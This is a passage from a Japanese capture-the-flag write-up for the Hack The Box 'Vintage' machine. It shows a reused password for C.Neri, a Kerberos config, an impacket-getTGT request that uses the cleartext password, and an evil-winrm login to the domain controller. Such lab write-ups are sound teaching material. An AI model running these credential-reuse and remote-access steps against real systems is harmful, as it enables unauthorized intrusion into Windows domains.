 `C.Neri` で認証に成功しました。`C.Neri` でもこのパスワードが使いまわされていることが分かりました。

# User.txt

nmapのスキャン結果からWinRMが動いていることが分かっているのでevil-winrmでログインします。

kerberos認証をevil-winrmで使うには `/etc/krb5.conf` を以下のように設定する必要があります。

```bash
-> % cat /etc/krb5.conf                                                    
[libdefault]
    default_realm = VINTAGE.HTB
	dns_lookup_realm = false
	dns_lookup_kdc = false
	ticket_lifetime = 24h
	forwardable = yes
	rdns = false
[realms]
        VINTAGE.HTB = {
                kdc = DC01.VINTAGE.HTB
                admin_server = DC01.VINTAGE.HTB
                default_domain = vintage.htb
        }
[domain_realm]
        vintage.htb = VINTAGE.HTB
        .vintage.htb = VINTAGE.HTB
```

C.NeriのTGTを要求して、エクスポートします。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ impacket-getTGT -dc-ip dc01.vintage.htb vintage.htb/C.Neri:Zer0the0ne
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in C.Neri.ccache
```

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ export KRB5CCNAME=C.Neri.ccache
                    
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ klist
Ticket cache: FILE:C.Neri.ccache
Default principal: C.Neri@VINTAGE.HTB

Valid starting       Expires              Service principal
2025-01-13T11:03:38  2025-01-13T21:03:38  krbtgt/VINTAGE.HTB@VINTAGE.HTB
	renew until 2025-01-14T11:03:37
```

この設定を行うことでWinRmへのアクセスに成功しました。

```bash
evil-winrm -i dc01.vintage.htb -r vintage.htb
```

